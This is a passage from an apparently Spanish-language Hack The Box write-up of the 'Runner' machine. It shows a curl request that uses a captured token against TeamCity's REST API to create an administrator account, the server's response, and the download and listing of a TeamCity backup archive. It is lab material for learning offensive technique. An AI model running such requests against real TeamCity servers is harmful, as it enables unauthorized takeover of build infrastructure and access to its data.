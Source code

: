 en `value` nos sale el token que obtuvimos, este servira para el siguiente onliner. Estaria ubicandolo en `Authorization: eyJ0eXAiOiAiVENWMiJ9.YnJ6SzVjU0l0UmZYWFZtMld3emI4X2NwdTFZ.NTNhNzM2YTUtN2I1NS00M2VkLWIyNDEtOWNkMTkyOGM0NDA2`

```bash
curl -s -X POST "http://teamcity.runner.htb/app/rest/users" -H 'Authorization: {TOKEN}' -H 'Content-Type: application/json' -d '{"email": "atreus@runner.htb", "username": "atreus", "password": "atreus123$!", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}'

<?xml version="1.0" encoding="UTF-8" standalone="yes"?><user username="atreus" id="11" email="atreus@runner.htb" href="/app/rest/users/id:11"><properties count="3" href="/app/rest/users/id:11/properties"><property name="addTriggeredBuildToFavorites" value="true"/><property name="plugin:vcs:anyVcs:anyVcsRoot" value="atreus"/><property name="teamcity.server.buildNumber" value="129390"/></properties><roles><role roleId="SYSTEM_ADMIN" scope="g" href="/app/rest/users/id:11/roles/SYSTEM_ADMIN/g"/></roles><groups count="1"><group key="ALL_USERS_GROUP" name="All Users" href="/app/rest/userGroups/key:ALL_USERS_GROUP" description="Contains all TeamCity users"/></groups></user>
```

el resultado es la creacion de un usuario con privilegios de administrador

![](htb-writeup-runner/runner4.png)

### Intrusion Via Web

Una vez dentro de la aplicacion web podemos ir a la parte de administracion y abajo nos vamos a encontrar con una seccion de `BACKUP`

![](htb-writeup-runner/runner5.png)

![](htb-writeup-runner/runner6.png)

Haciendo click en Start Backup se descargara un archivo ZIP. Una vez en tenencia del archivo vamos a descomprimirlo

```bash
7z l TeamCity_Backup_20241028_142213.zip 

7-Zip 24.07 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-06-19
 64-bit locale=C.UTF-8 Threads:128 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 266056 bytes (260 KiB)

Listing archive: TeamCity_Backup_20241028_142213.zip

--
Path = TeamCity_Backup_20241028_142213.zip
Type = zip
Physical Size = 266056
Comment = TeamCity data backup; ZIP factory in use: memory-conservative (dynamic, shared); compression level -1.

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2024-10-28 14:22:12 .....           92           70  version.txt
2024-10-28 14:22:12 .....           45           47  metadata/metadata-version.dat
2024-10-28 14:22:12 .....            6            8  charset
2024-10-28 14:22:12 .....          637          310  metadata/backup.config
2024-10-28 14:22:12 .....        67388        11783  metadata/schema.config
2024-10-28 14:22:12 .....           50           46  database_dump/db_version
2024-10-28 14:22:12 .....       112098        18694  database_dump/meta_file_line
2024-10-28 14:22:12 .....           14           16  database_dump/single_row
2024-10-28 14:22:12 .....           88           86  database_dump/server_property
2024-10-28 14:22:12 .....          121           97  database_dump/backup_info
2024-10-28 14:22:12 .....          151          123  database_dump/domain_sequence
2024-10-28 14:22:12 .....          149          128  database_dump/project
```